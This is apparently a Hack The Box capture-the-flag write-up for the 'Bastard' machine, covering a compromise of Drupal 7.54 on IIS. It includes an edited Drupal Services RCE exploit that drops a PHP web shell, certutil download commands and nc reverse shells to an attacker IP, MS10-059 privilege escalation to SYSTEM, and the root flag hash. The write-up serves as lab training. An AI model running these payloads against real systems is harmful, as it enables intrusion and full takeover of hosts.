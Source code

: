 ```yaml
---
layout: single
title: "Bastard"
categories: htb
classes: wide
---
```


## Enumeration

First we do the nmap scan:
```bash
nmap -v -sV -sC -T5 -oN nmap.txt 10.10.10.9
......
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```

We see 3 ports are open. Only interesting port is 80 which is running drupal cms. 

We need to find the cms correct and exact version to search for known vulnerability. Let's go to ```10.10.10.9/CHANGELOG.txt``` and we see something like:
```
Drupal 7.54, 2017-02-01
```


## Searching For Vulnerablity
I used searchsploit command in kali to search the vulnerability:
![Bastard Vulnerability](./bastard1.png)

The working exploit is:
```bash
exploits/php/webapps/41564.php
```
I simply edited two lines of this exploit:
```php
$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
to

```php
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';
```
But the exploit failed!

I was not that familiar with this vulnerability. Found another article about this vulnerability is <https://www.ambionics.io/blog/drupal-services-module-rce>. I did some more Google search, and found i need to make another post request before working this exploit:

```html
POST /rest HTTP/1.1
Host: 10.10.10.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.9/
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Connection: close
Cookie: has_js=1
Upgrade-Insecure-Requests: 1
```
After this request with burp suite, the server replied:
```html
HTTP/1.1 200 OK
Cache-Control: no-cache, must-revalidate
Content-Type: text/html
Expires: Sun, 19 Nov 1978 05:00:00 GMT
Server: Microsoft-IIS/7.5
X-Powered-By: PHP/5.3.28
X-Content-Type-Options: nosniff
X-Powered-By: ASP.NET
Date: Sat, 09 May 2020 18:39:15 GMT
Connection: close
Content-Length: 62

Services Endpoint "rest_endpoint" has been setup successfully.
```

## Working Exploit
I had to fix some lines in the exploit and modify the ```$endpoint_path```
Exploit final modification was(For some troublshooting i used burpsuite here):

```php
$url = 'http://127.0.0.1:8081';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'backdoor.php',
    'data' => '<?php if(isset($_REQUEST[\'cmd\'])){ echo "<pre>"; $cmd = ($_REQUEST[\'cmd\']); system($cmd); echo "</pre>"; die; }?>'
];
```

And 
```bash
root@kali:/opt/htb1/basterd# php *.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce


#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://127.0.0.1:8081/backdoor.php
```

### Reverse Shell

I have uploaded nc.exe and :
```bat
http://10.10.10.9/backdoor.php?cmd=certutil.exe -urlcache -split -f http://10.10.14.14/nc.exe nc.exe
http://10.10.10.9/backdoor.php?cmd=nc -e cmd.exe ip port
```

I quickly got shell in my kali machine. I save the output of ```systeminfo``` command and use [windows-exploit-suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) python script:
```bash
python windows-exploit-suggester.py --update
python windows-exploit-suggester.py --systeminfo sysfo.txt -d *.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
I exploited [MS10-059](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri) for privilege escalation as follows:

```bash
nc -lvp 444
listening on [any] 444 ...
10.10.10.9: inverse host lookup failed: Unknown host
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.9] 51514
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\inetpub\drupal-7.54>Chimichurri.exe 10.10.14.14 333    
Chimichurri.exe 10.10.14.14 333

/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
C:\inetpub\drupal-7.54>
C:\inetpub\drupal-7.54>
```

In another terminal nc was waiting for the connection on port 333. In few seconds i got shell:

```bash
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of c:\Users\Administrator\Desktop

19/03/2017  08:33     <DIR>          .
19/03/2017  08:33     <DIR>          ..
19/03/2017  08:34                 32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.801.559.552 bytes free

c:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
4bf12b963da1b30cc93496f617f7ba7c
c:\Users\Administrator\Desktop>whoami
whoami
nt authority\system

c:\Users\Administrator\Desktop>
```
![Root](/_post/bastard/root.png)
